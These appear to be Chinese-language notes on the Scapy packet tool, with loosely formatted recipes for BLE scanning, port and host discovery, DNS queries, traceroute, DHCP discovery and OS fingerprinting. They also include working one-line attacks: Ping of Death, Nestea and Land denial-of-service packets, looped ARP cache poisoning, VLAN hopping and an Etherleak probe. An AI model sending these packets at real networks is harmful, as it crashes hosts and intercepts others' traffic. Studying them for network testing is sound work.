xxxxxxxxxxUUID = time-low "-" time-mid "-"time-high-and-version "-"clock-seq-and-reservedclock-seq-low "-" nodetime-low = 4hexOctettime-mid = 2hexOctettime-high-and-version = 2hexOctetclock-seq-and-reserved = hexOctetclock-seq-low = hexOctetnode = 6hexOctetField Data Type Octet Notetime_low unsigned 32 bit integer 0-3 The low field of the timestamptime_mid unsigned 16 bit integer 4-5 The middle field of the timestamptime_hi_and_version unsigned 16 bit integer 6-7 The high field of the timestamp multiplexed with the version numberclock_seq_hi_and_reserved unsigned 8 bit integer 8 The high field of the clock sequence multiplexed with the variantclock_seq_low unsigned 8 bit integer 9 The low field of the clock sequencenode unsigned 48 bit integer 10-15 The spatially unique node identifier
major
minor
tx_power
第一步是打开基础蓝牙设备的HCI套接字
>>> bt = BluetoothHCISocket(0)发现附近的设备
配置参数
bt.sr(HCI_Hdr()/HCI_Command_Hdr()/HCI_Cmd_LE_Set_Scan_Parameters(type=1))启动扫描
bt.sr(HCI_Hdr()/HCI_Command_Hdr()/HCI_Cmd_LE_Set_Scan_Enable(enable=True,filter_dups=False))开始抓包
adverts = bt.sniff(lfilter=lambda p: EIR_CompleteLocalName in p, prn=lambda x:(x.reports[0].addr,x.getlayer(EIR_CompleteLocalName).local_name))收到数据包后, 禁用发现模式
bt.sr(HCI_Hdr()/HCI_Command_Hdr()/HCI_Cmd_LE_Set_Scan_Enable(enable=False))xxxxxxxxxxload_layer("http")scapy.layers.http.HTTPscapy.layers.http.HTTPRequestMethod
GET
HEAD
POST
PUT
DELETE
CONNECT
OPTIONS
TRACE
PATCH
Path
Http_Version
A_IM
Accept
Accept_Charset
Accept_Datetime
Accept_Encoding
Accept_Language
Access_Control_Request_Headers
Access_Control_Request_Method
Authorization
Cache_Control
Connection
Content_Length
Content_MD5
Content_Type
Cookie
DNT
Date
Expect
Forwarded
From
Front_End_Https
HTTP2_Settings
Host
If_Match
If_Modified_Since
If_None_Match
If_Range
If_Unmodified_Since
Keep_Alive
Max_Forwards
Origin
Permanent
Pragma
Proxy_Authorization
Proxy_Connection
Range
Referer
Save_Data
TE
Upgrade
Upgrade_Insecure_Requests
Upgrade_Insecure_Requests
User_Agent
Via
Warning
X_ATT_DeviceId
X_Correlation_ID
X_Csrf_Token
X_Forwarded_For
X_Forwarded_Host
X_Forwarded_Proto
X_Http_Method_Override
X_Request_ID
X_Requested_With
X_UIDH
X_Wap_Profile
Unknown_Headers
scapy.layers.http.HTTPResponseTCP_client不好使!!!
ans, unans = sr(IP(dst="www.slashdot.org")/TCP(dport=[80,666],flags="A"))
未过滤的端口:
[s[TCP].dport for s in ans]过滤的端口:
[s[TCP].dport for s in unans]带有状态标志的段发送到封闭端口则应使用RST进行响应. 此行为应允许攻击者通过发送某些类型的规则破坏数据包(不同步或TCB不允许)来扫描关闭的端口, 并通过RST数据包检测关闭的端口
ans, unans = sr(IP(dst="192.168.1.1")/TCP(dport=666,flags="FPU"))
检查RST响应将显示目标上的关闭端口
一个较低级别的IP扫描可以用来枚举支持的协议
ans, unans = sr(IP(dst="192.168.1.1",proto=(0,255)),timeout=1)[s.proto for s, __ in ans]发现本地以太网主机的最快方法是使用ARP Ping方法
ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)
ans.summary(lambda x: (x[1]['Ether'].src,x[1]['ARP'].psrc))
ans.summary(lambda x: (x[1].src,x[1].psrc))Scapy还包括一个内置的arping()函数, 它执行类似于上面的两个命令:
arping("192.168.1.*")ans, unans = sr(IP(dst="192.168.1.1-254")/ICMP())
ans.summary(lambda x: x[1].sprintf("%IP.src% is alive"))
ans.summary(lambda x: x[1]['IP'].src)在ICMP回显请求被阻塞的情况下, 我们仍然可以使用各种TCP Ping, 比如下面的TCP SYN Ping:
ans, unans = sr(IP(dst="192.168.1.*")/TCP(dport=80,flags="S"))ans.summary(lambda x: x[1].sprintf("%IP.src% is alive"))在每个端口上发送一个TCP SYN. 等待SYN-ACK或RST或ICMP错误
ans, unans = sr(IP(dst="target")/TCP(flags="S", dport=(1,1024)))ans.nsummary( lfilter=lambda x: (x[1].haslayer(TCP) and (x[1].getlayer(TCP).flags=='SA')))选择最有可能关闭的端口(开放的UDP端口可能会收到空数据包, 但会忽略它们). ICMP端口不可达, 则表示机器已启动.
ans, unans = sr(IP(dst="192.168.*.1-10")/UDP(dport=0))ans.summary( lambda x: x[1].sprintf("%IP.src% is alive"))我们尝试通过发送ISAKMP安全协会提案并接收答案来识别VPN集中器
res, unans = sr( IP(dst="192.168.1.*")/UDP() /ISAKMP(init_cookie=RandString(8), exch_type="identity,prot.")/ISAKMP_payload_SA(prop=ISAKMP_payload_Proposal()))res.nsummary(prn=lambda x: x[1].src, lfilter=lambda x: x[1].haslayer(ISAKMP))IPv4(A) request
ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="secdev.org",qtype="A")))ans.an.rdataSOA request
ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1, qd=DNSQR(qname="secdev.org",qtype="A")))ans.ns.mnameans.ns.rnameMX request
ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="google.cn",qtype="MX")))[x.exchange for x in ans.an.iterpayloads()]send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP())ping 数据包巨大
send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)))受到Nestea拒绝服务攻击的计算机几乎肯定会崩溃
xxxxxxxxxx>>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10)) >>> send(IP(dst=target, id=42, frag=48)/("X"*116)) >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224))send(IP(src=target,dst=target)/TCP(sport=135,dport=135))这种攻击通过VLAN跳变攻击来毒化ARP缓存, 从而阻止客户端加入网关
经典的ARP缓存毒化
send(Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client), inter=RandNum(10,40), loop=1)用双802.1q封装的ARP缓存毒化
send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2) /ARP(op="who-has", psrc=gateway, pdst=client), inter=RandNum(10,40), loop=1)Exploit Etherleak flaw, 网络设备驱动程序在对于小于46字节的包数据会进行填补. 多个网络设备驱动程序在填补数据包时使用以前的帧缓冲数据, 远程攻击者可以利用这个漏洞从受此漏洞影响的设备中获得一些敏感信息. Ethernet标准(IEEE 802.3)定义数据包的最小字段为46字节, 如果高层协议如IP提供的数据包小于46字节, 设备驱动程序必须填充数据段来迎合IEEE 802规定的最小帧大小规定, 而填充值一般是NULL数据. 但是许多Ethernet设备驱动程序没有正确按照标准实现进行操作, 对数据的填充没有使用NULL字节, 而重用了以前传输过的帧数据进行填补操作. 由于Ethernet帧缓冲区在内核内存空间分配, 因此通过分析这些填补数据可以获得一些系统敏感信息.
sr1(IP(dst="172.16.1.232")/ICMP())这是一个Linux 2.0的bug
sr1(IP(dst="172.16.1.1", options="\x02")/ICMP())在非常特殊的情况下, 双802.1q封装将使包跳转到另一个VLAN
sendp(Ether()/Dot1Q(vlan=2)/Dot1Q(vlan=7)/IP(dst=target)/ICMP())下面的命令将显示类似于大多数无线嗅探器的信息
sniff(iface="mon0", monitor=True, prn=lambda x:x.sprintf("Dot11Beacon:%Dot11.addr3%\t%Dot11Beacon.info%\t%PrismHeader.channel%\t%Dot11Beacon.cap%"))xxxxxxxxxx>>> ans, unans = sr(IP(dst="4.2.2.1",ttl=(1,10))/TCP(dport=53,flags="S"))>>> ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))192.168.1.1 time-exceeded68.86.90.162 time-exceeded4.79.43.134 time-exceeded4.79.43.133 time-exceeded4.68.18.126 time-exceeded4.68.123.38 time-exceeded4.2.2.1 SA
因为UDP没有三次握手, 所以我们需要给一个应用负载(DNS, ISAKMP, NTP等)获得的响应
ans, unans = sr(IP(dst='dns server', ttl=(1,20)) /UDP()/DNS(qd=DNSQR(qname="google.cn")))ans.make_table(lambda x: (x[0].dst, x[0].ttl, x[1].src))ans, unans = traceroute("4.2.2.1",l4=UDP(sport=RandShort())/DNS(qd=DNSQR(qname="thesprawl.org")))这个程序使用了回调函数(参数prn). store参数被设置为0, 这样一来, sniff()函数就不会存储任何东西, 因此可以永远运行. 过滤器参数用于在高负载下获得更好的性能:过滤器应用于内核内部, Scapy只会看到ARP流量.
xxxxxxxxxxfrom scapy.all import *def arp_monitor_callback(pkt): if ARP in pkt and pkt[ARP].op in (1,2): #who-has or is-at return pkt.sprintf("%ARP.hwsrc% %ARP.psrc%")sniff(prn=arp_monitor_callback, filter="arp", store=0)问题
办法
使用Scapy发送一个DHCP发现请求并分析回复:
xxxxxxxxxx>>> conf.checkIPaddr = False >>> fam,hw = get_if_raw_hwaddr(conf.iface) >>> dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"]) >>> ans, unans = srp(dhcp_discover, multi=True) 在本例中, 我们得到了两个应答, 因此测试网络上有两个活动的DHCP服务器
xxxxxxxxxx>>> ans.summary() Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==>Ether / IP / UDP 192.168.1.1:bootps > 255.255.255.255:bootpc / BOOTP / DHCP Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==>Ether / IP / UDP 192.168.1.11:bootps > 255.255.255.255:bootpc / BOOTP / DHCP>>> for p in ans: print p[1][Ether].src, p[1][IP].src 过滤操作后的TTL递减, 只有未过滤的包生成超过ICMP TTL
xxxxxxxxxx>>> ans, unans = sr(IP(dst="172.16.4.27", ttl=16)/TCP(dport=(1,1024))) >>> for s,r in ans: if r.haslayer(ICMP) and r.payload.type == 11: print (s.dport)发现子网在一个多网卡防火墙中, 用这个TTl, 只有防火墙的网卡的IP是可达的
xxxxxxxxxx>>> ans, unans = sr(IP(dst="172.16.5/24", ttl=15)/TCP()) >>> for i in unans: print i.dst问题
办法
sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S",options=[('Timestamp',(0,0))]))问题
办法
packets = IP(src="192.0.2.9", dst=Net("192.0.2.10/30"))/ICMP()wireshark(packets)ISN
Scapy可用于分析ISN(初始序列号)增量, 从而可能发现易受攻击的系统. 首先, 我们通过循环发送SYN探针,收集目标的响应
ans, unans = srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))一旦我们获得了合理数量的响应, 我们就可以开始用类似这样的方法分析收集到的数据
xxxxxxxxxx>>> temp = 0>>> for s, r in ans:... temp = r[TCP].seq - temp... print("%d\t+%d" % (r[TCP].seq, temp))
nmap_fp
Scapy支持Nmap指纹识别(Nmap在4.20之前完成的旧的“第一代”指纹识别). 在Scapy v2中, 你必须先加载一个扩展模块:
>>> load_module("nmap")如果你已经安装了Nmap, 你可以使用它的活动操作系统指纹数据库与Scapy. 确保签名数据库的版本1位于以下指定的路径:
>>> conf.nmap_base然后你可以使用nmap_fp()函数实现与Nmap的OS检测引擎相同的探测:
>>> nmap_fp("192.168.1.1",oport=443,cport=1)p0f
如果系统上安装了p0f, 就可以使用它从Scapy猜测操作系统的名称和版本(只使用SYN数据库). 首先, 确保p0f数据库存在于指定的路径
>>> conf.p0f_base例如, 从一个捕获的包猜测操作系统
>>> sniff(prn=prnp0f)